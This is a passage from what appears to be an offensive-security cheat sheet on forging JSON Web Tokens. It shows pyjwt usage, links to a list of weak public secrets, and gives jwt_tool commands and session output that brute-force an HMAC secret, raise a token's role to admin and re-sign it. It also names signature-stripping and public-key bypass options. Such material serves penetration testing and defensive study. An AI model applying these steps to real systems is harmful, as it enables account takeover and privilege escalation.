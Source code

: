 > To create a JWT, a secret key is used to sign the header and payload, which generates the signature. The secret key must be kept secret and secure to prevent unauthorized access to the JWT or tampering with its contents. If an attacker is able to access the secret key, they can create, modify or sign their own tokens, bypassing the intended security controls.

### Encode and Decode JWT with the secret

Using [pyjwt](https://pyjwt.readthedocs.io/en/stable/): `pip install pyjwt`

```python
import jwt
encoded = jwt.encode({'some': 'payload'}, 'secret', algorithm='HS256')
jwt.decode(encoded, 'secret', algorithms=['HS256']) 
```

### Break JWT secret

Useful list of 3502 public-available JWT: [wallarm/jwt-secrets/jwt.secrets.list](https://github.com/wallarm/jwt-secrets/blob/master/jwt.secrets.list), including `your_jwt_secret`, `change_this_super_secret_random_string`, etc.


#### JWT tool

First, bruteforce the "secret" key used to compute the signature using [ticarpi/jwt_tool](https://github.com/ticarpi/jwt_tool)

```powershell
python3 -m pip install termcolor cprint pycryptodomex requests
python3 jwt_tool.py eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJzdWIiOiIxMjM0NTY3ODkwIiwicm9sZSI6InVzZXIiLCJpYXQiOjE1MTYyMzkwMjJ9.1rtMXfvHSjWuH6vXBCaLLJiBghzVrLJpAQ6Dl5qD4YI -d /tmp/wordlist -C
```

Then edit the field inside the JSON Web Token.

```powershell
Current value of role is: user
Please enter new value and hit ENTER
> admin
[1] sub = 1234567890
[2] role = admin
[3] iat = 1516239022
[0] Continue to next step

Please select a field number (or 0 to Continue):
> 0
```

Finally, finish the token by signing it with the previously retrieved "secret" key.

```powershell
Token Signing:
[1] Sign token with known key
[2] Strip signature from token vulnerable to CVE-2015-2951
[3] Sign with Public Key bypass vulnerability
[4] Sign token with key file

Please select an option from above (1-4):
> 1

Please enter the known key:
> secret

Please enter the key length:
[1] HMAC-SHA256
[2] HMAC-SHA384
[3] HMAC-SHA512
> 1

```